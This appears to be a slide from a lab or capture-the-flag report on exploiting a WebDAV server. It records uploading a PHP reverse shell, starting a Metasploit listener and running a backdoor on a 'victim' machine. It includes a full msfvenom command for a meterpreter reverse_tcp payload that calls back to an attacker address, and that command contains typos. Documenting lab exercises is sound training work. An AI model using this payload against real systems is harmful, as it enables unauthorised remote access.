

# Exploitation: Webdav
02

01

Achievements
Uploaded the shell.php file in the webdav server.

Successfully connected to the web server server and found the flag.
Tools & Processes
Used msfvenom to create reverse shell PHP payload.
Command: msfvenom –p php/meterpreter/reverse_tcp LHOST=19.168.1.90 LPOST=4443 –f raw –o shell.php

Used msfconsole to establish the remote listener.

Executed reverse shell backdoor on the victim’s machine.